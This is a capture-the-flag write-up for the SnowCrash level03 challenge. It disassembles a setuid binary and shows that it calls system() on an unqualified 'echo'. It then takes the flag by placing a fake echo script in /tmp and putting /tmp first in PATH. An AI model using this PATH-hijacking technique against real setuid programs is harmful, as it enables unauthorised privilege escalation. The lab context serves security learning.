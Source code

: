 ## LEVEL 03

---

For this level we have in the `level03` repository a file named `level03`. This file is a ELF file. The first thing I do is `cat` this file to have so useful informations.

```shell
$ hexdump -C level03
[...]
000005e0  2f 75 73 72 2f 62 69 6e  2f 65 6e 76 20 65 63 68  |/usr/bin/env ech|
000005f0  6f 20 45 78 70 6c 6f 69  74 20 6d 65 00 00 00 00  |o Exploit me....|
[...]
00001020  00 00 00 00 47 43 43 3a  20 28 55 62 75 6e 74 75  |....GCC: (Ubuntu|
[...]
000012f0  5f 5f 75 69 64 5f 74 00  65 6e 76 70 00 2f 68 6f  |__uid_t.envp./ho|
00001300  6d 65 2f 75 73 65 72 2f  6c 65 76 65 6c 30 33 2f  |me/user/level03/|
00001310  6c 65 76 65 6c 30 33 2e  63 00 6c 6f 6e 67 20 6c  |level03.c.long l|
[...]
```

We hame few more informations now :
1. This file calls echo to print "Exploit Me".
2. This file has been compiled by GCC.
3. The source file was `/home/user/level03/level03.c`

Sadly our user doesn't have access to the source file.

I need to have for information about what `leve03` does for that I will use `gdb` which is a debugger and reverse engineering tool.

```shell
$ gdb -q level03
Reading symbols from /home/user/level03/level03...done.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a4 <+0>:	 push   %ebp
   0x080484a5 <+1>:	 mov    %esp,%ebp
   0x080484a7 <+3>:	 and    $0xfffffff0,%esp
   0x080484aa <+6>:	 sub    $0x20,%esp
   0x080484ad <+9>:	 call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>: mov    %eax,0x18(%esp)
   0x080484b6 <+18>: call   0x8048390 <geteuid@plt>
   0x080484bb <+23>: mov    %eax,0x1c(%esp)
   0x080484bf <+27>: mov    0x18(%esp),%eax
   0x080484c3 <+31>: mov    %eax,0x8(%esp)
   0x080484c7 <+35>: mov    0x18(%esp),%eax
   0x080484cb <+39>: mov    %eax,0x4(%esp)
   0x080484cf <+43>: mov    0x18(%esp),%eax
   0x080484d3 <+47>: mov    %eax,(%esp)
   0x080484d6 <+50>: call   0x80483e0 <setresgid@plt>
   0x080484db <+55>: mov    0x1c(%esp),%eax
   0x080484df <+59>: mov    %eax,0x8(%esp)
   0x080484e3 <+63>: mov    0x1c(%esp),%eax
   0x080484e7 <+67>: mov    %eax,0x4(%esp)
   0x080484eb <+71>: mov    0x1c(%esp),%eax
   0x080484ef <+75>: mov    %eax,(%esp)
   0x080484f2 <+78>: call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>: movl   $0x80485e0,(%esp)
   0x080484fe <+90>: call   0x80483b0 <system@plt>
   0x08048503 <+95>: leave
   0x08048504 <+96>: ret
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
```

Now I know that the program must have a line like this: `system("/usr/bin/env echo Exploit me")`

One more detail I found is that `level03` has `flag03` rights. So I need to change the line above to run the `getflag` command.

This command has a vulnerability because echo isn't called with a absolute path, so we can easily run the command we want with symlink and a PATH variable changed.

First I search the getflag executable path.
```shell
$ level03@SnowCrash:/tmp$ find / -name "*getflag*" 2>/dev/null
/bin/getflag
/rofs/bin/getflag
```

Then I create a file to execute getflag and give full rights to the file.
```shell
$ vim /tmp/echo
#!/bin/bash
/bin/getflag
$ chmod 777 /tmp/echo
```

And finally I change the PATH by adding the tmp path at the beginning and I run the command.
```shell
$ export PATH="/tmp:$PATH"
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

